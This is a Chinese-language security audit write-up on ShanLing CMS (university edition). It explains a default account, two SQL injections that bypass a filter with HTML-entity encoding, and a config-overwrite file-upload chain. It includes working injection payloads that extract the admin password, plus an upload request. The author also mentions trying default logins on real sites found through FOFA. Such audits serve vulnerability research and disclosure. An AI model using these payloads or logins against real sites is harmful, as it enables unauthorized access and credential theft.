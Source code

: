 

# 奇安信攻防社区-闪灵cms高校版代码审计

### 闪灵cms高校版代码审计

闪灵cms代码审计

# 简介

闪灵cms高校版是一款php开发的智能企业建站系统，该系统能让用户在短时间内迅速架设属于自己的企业网站。建站系统易学易懂，用户只需会上网、不需学习编程及任何语言，只要使用该系统平台，即可在线直接完成建站所有工作。

# 漏洞1：默认密码

在安装系统完成之后，到数据库就可以看到有几个默认系统用户密码（注意：这里不是管理员用户，只是普通用户，并无进入网站管理后台的权限）。

![图片.png](assets/1698895905-af947278d5495ff521c92d1ccd0677d2.png)

随便找一个密码去解密比如：7FEF6171469E80D32C0559F88B377245

![图片.png](assets/1698895905-1e9cb9d96073fb35bf56657f4e79e02b.png)  
就得到了默认账户admin/admin888的登陆口令，现在去登录系统的用户后台。  
[http://localhost/member/member\_login.php](http://localhost/member/member_login.php)

![图片.png](assets/1698895905-19a189d593cd658f19a1e7bece0b9ee3.png)  
ps: 我去fofa随便找了几个网站试，成功率还是挺高的，不过得开用户登录后台功能，默认情况下是开启的。一般开启用户登录后台基本都会有这么几个默认用户。

# 漏洞2：用户后台update注入

路径：member/member\_edit.php  
可以看到以下代码，参数都是直接从post请求中获取,只是经过了htmlspecialchars过滤，然后直接拼接到sql语句当中，所以这段代码是存在注入的。

![图片.png](assets/1698895905-0dfc59bb2066dcf0aced50415be2e66b.png)

验证：  
用navicat开启mysql日志，然后根据日志文件查看sql语句执行情况。

```mysql
set global general_log=ON;
show variables LIKE '%general_log%';
```

然后打上单引号看看是否效果如我们预想，发现其实代码还是有做防护的。

![图片.png](assets/1698895905-19aa337b20a1d7484f4c70f9a8b5a0ea.png)

防护代码如下：  
路径：function/function.php  
如下图可见，POST请求经过了正则表达式的检测，如果匹配到敏感字符将会die掉程序终止执行。

![图片.png](assets/1698895905-8440a426023e699b8a2d06103a98ab3d.png)

![图片.png](assets/1698895905-19db8618b373e15d827756414db719ac.png)

但是在member/member\_edit.php代码22行, 参数又经过了RemoveXSS函数的过滤。

```php
$M_info=RemoveXSS($_POST["M_info"]);
```

跟进这个函数可以看到这么一段代码，具体而言，这段代码是在处理一个字符串 `$val` 中出现的 HTML 实体编码，将其转换为对应的字符。具体实现方式是通过正则表达式匹配实体编码，并使用 PHP 内置函数 `ord()` 将匹配到的字符转换成 ASCII 码。然后，使用 `dechex()` 将 ASCII 码转换成 16 进制表示。最后，使用 `preg_replace()` 函数将匹配到的实体编码替换成对应的字符。

![图片.png](assets/1698895905-1a625f7523bd1d8d07a4f9a9da7aa37c.png)

那么就可以使用html实体编码sql注入payload用来绕过检测。  
比如'的html实体编码为&#39，然后url编码一遍可以看到执行语句的日志。可以发现成功的绕过了检测，并且进入数据库的字符也被解码了。  
![图片.png](assets/1698895905-e3b3b42cd0166356428de58077635ae7.png)  
直接上payload，注入获取管理员密码  
`%26%2339,M_info=(%26%23115elect a_pwd from sl_admin),M_add=%26%2339`  
![图片.png](assets/1698895905-bbd2b0cb005bb7b66547b75f562f48cf.png)

# 漏洞3：论坛评论insert注入

路径：bbs/item.php  
和上个漏洞点形成原因一样只是换了个注入方式。

![图片.png](assets/1698895905-ef1ca7f6f05138018c09f13949e771dc.png)

payload:  
`aaaaa%26%2339,%26%23392023-01-01%26%2339,7,1,1),(%26%2339aaa%26%2339,(%26%23115elect a_pwd from sl_admin), %26%23391010-02-02%26%2339,7,1,1) %23`

![图片.png](assets/1698895905-c62df61a34e0007134bc589feb779f09.png)

# 漏洞4：管理后台文件上传

这个是一个组合漏洞，因为系统后台虽然可以设置上传文件格式，但是不允许设置php这些格式。但是好在过滤是以黑名单的方式，然后该系统又有ue编辑器，那么就可以上传一个json文件将其原有的config.json文件覆盖掉，最后通过ue编辑器上传webshell。

![图片.png](assets/1698895905-dcd3d42a298acddbbe29d2fdb29b6de5.png)

![图片.png](assets/1698895905-f9871b3306ecdbd92e760f6192d137f8.png)

首先在config.json文件处加上允许上传php

![图片.png](assets/1698895905-1045ea56b03407dc0322632bac114f96.png)  
然后到后台修改一下安全配置，设置允许上传json格式的文件

![图片.png](assets/1698895905-554773ab2d058be493ff5ec952910943.png)

然后把刚刚修改好的文件上传覆盖掉原有的config.json文件  
![图片.png](assets/1698895905-42a89f2d327002d5604af4e4427d761c.png)

最后去ue编辑器发个包就大功告成了。

```http
POST /ueditor/php/controller.php?action=uploadfile HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryG33bK0VpwNWgBEHF
Connection: close

------WebKitFormBoundaryG33bK0VpwNWgBEHF
Content-Disposition: form-data; name="upfile"; filename="1.php"
Content-Type: application/octet-stream

<? phpinfo(); ?>
------WebKitFormBoundaryG33bK0VpwNWgBEHF--
```

![图片.png](assets/1698895905-5f49b78fcfdcafa0b4e8a84ba41415b8.png)

![图片.png](assets/1698895905-472d501c5de604053089446330de3008.png)
